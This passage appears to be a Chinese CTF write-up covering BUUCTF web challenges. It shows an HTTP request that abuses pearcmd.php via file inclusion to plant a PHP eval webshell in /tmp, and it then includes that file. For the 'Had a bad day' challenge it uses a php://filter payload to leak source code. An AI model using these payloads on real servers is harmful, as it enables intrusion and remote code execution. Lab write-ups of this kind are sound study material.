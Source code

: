 

![img](https://img-blog.csdnimg.cn/f9cc5bae44b845adb0d52988c18a273e.png)





 [浅谈文件包含之包含pearcmd.php漏洞-CSDN博客](https://blog.csdn.net/JCPS_Y/article/details/127541665)

```php
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST[1])?>+/tmp/hello.php HTTP/1.1
Host: a960c469-0216-4a7a-9421-99c70c27ffb7.node4.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



```php
http://a960c469-0216-4a7a-9421-99c70c27ffb7.node4.buuoj.cn:81/index.php?file=/tmp/hello
```



![img](https://img-blog.csdnimg.cn/2d7be49a0a9e4eb1a02c19a1e3c67ee7.png)



![img](https://img-blog.csdnimg.cn/c40cba1fe877400ead6ed56281e80337.png)



## [BSidesCF 2020]Had a bad day 

![img](https://img-blog.csdnimg.cn/09c4a415c33a450bad006ead6cadecd8.png)



```
http://d7aba0d9-5c5b-40c0-909b-4dfa352701ed.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/resource=index.php
```



![img](https://img-blog.csdnimg.cn/a06e013cee6f43f68c11d36eb351f959.png)



去掉一个php得到：

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```